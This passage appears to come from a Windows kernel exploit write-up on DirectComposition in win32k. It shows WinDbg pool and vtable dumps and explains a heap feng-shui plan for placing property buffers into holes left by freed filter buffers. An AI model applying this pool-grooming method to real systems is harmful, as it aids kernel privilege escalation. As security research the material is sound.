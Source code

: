 ```
ffffb38d`464b6cf8  20000050`00000045
ffffb38d`464b6d00  79737355`2b040000
ffffb38d`464b6d08  c26b75e1`5e8f27bc
ffffb38d`464b6d10  00000000`00001870
ffffb38d`464b6d18  00000000`00001a28
ffffb38d`464b6d20  00000000`00001aac
ffffb38d`464b6d28  00000000`00001a80
ffffb38d`464b6d30  00000000`000017e8
ffffb38d`464b6d38  ffffb38d`00000073
ffffb38d`464b6d40  706d7447`23040000
ffffb38d`464b6d48  c26b75e1`5e8f27fc
1: kd> !pool ffffb38d`464b6cd0
Pool page ffffb38d464b6cd0 region is Paged session pool
...
...
 ffffb38d464b6b40 size:   40 previous size:    0  (Allocated)  Uiso
 ffffb38d464b6b80 size:   40 previous size:    0  (Allocated)  Uiso
 ffffb38d464b6bc0 size:   40 previous size:    0  (Allocated)  Urdr
 ffffb38d464b6c00 size:   40 previous size:    0  (Allocated)  Uiso
 ffffb38d464b6c40 size:   40 previous size:    0  (Allocated)  Uscd
 ffffb38d464b6c80 size:   40 previous size:    0  (Allocated)  Uiso
*ffffb38d464b6cc0 size:   40 previous size:    0  (Allocated) *Uspw
		Pooltag Uspw : USERTAG_DYNAMICARRAY, Binary : win32k!CDynamicArray::Add
 ffffb38d464b6d00 size:   40 previous size:    0  (Allocated)  Ussy Process: ffffa20a1f652440
 ffffb38d464b6d40 size:   40 previous size:    0  (Free)       Gtmp
 ffffb38d464b6d80 size:   40 previous size:    0  (Allocated)  Uiso
 ffffb38d464b6dc0 size:   40 previous size:    0  (Allocated)  DCpd Process: ffffa20a1eac7080
 ffffb38d464b6e00 size:   40 previous size:    0  (Free)       Gtmp
 ffffb38d464b6e40 size:   40 previous size:    0  (Free)       Gtmp
 ffffb38d464b6e80 size:   40 previous size:    0  (Free)       FDrq
 ffffb38d464b6ec0 size:   40 previous size:    0  (Free)       Ussw
 ffffb38d464b6f00 size:   40 previous size:    0  (Free)       Gtmp
 ffffb38d464b6f40 size:   40 previous size:    0  (Free)       FDrq
 ffffb38d464b6f80 size:   40 previous size:    0  (Free)       Gtmp
 ffffb38d464b6fc0 size:   40 previous size:    0  (Free)       Gtmp
```
 
Great, so propertyinfo size is 0x40, and we can make 6 D2DVector4 to get the properties buffer in the same bucket as CPropertySetMarshaler. So what we need to do is make 5, make holes, then make additional properties and hopefully fill in some of the holes. Upon making a fifth property, the propertyinfo buffer will grow to 0x50. We want it to grow right after the CTableTransferEffectMarshaler filter buffers free to occupy the same holes. If we add two D2DVector2 instead of another D2DVector4, it will grow to size 0x50. If CtableTranserEffectMarshaler filter buffers are also size 0x50, it should occupy the same holes. The memory layout after doing fengshui is like:

```
1: kd> dqs ffffb38d`472358b0
ffffb38d`472358b0  ffffb3d4`0f73c470 win32kbase!DirectComposition::CPropertySetMarshaler::`vftable'
ffffb38d`472358b8  ffffb38d`47235680
ffffb38d`472358c0  00000001`00000083
ffffb38d`472358c8  00000000`00000003
ffffb38d`472358d0  00000000`00000000
ffffb38d`472358d8  00000000`00000000
ffffb38d`472358e0  00000000`00000000
ffffb38d`472358e8  ffffb38d`4733e030
ffffb38d`472358f0  00000007`00000007
ffffb38d`472358f8  ffffb38d`465b08f0
ffffb38d`47235900  00000060`00000060
ffffb38d`47235908  00000000`00000000
ffffb38d`47235910  62704344`2b070000
ffffb38d`47235918  c26b75e1`5e2e476c
ffffb38d`47235920  ffffb3d4`0f73c470 win32kbase!DirectComposition::CPropertySetMarshaler::`vftable'
ffffb38d`47235928  00000000`00000000
1: kd> dqs ffffb38d`4733e030 L40
```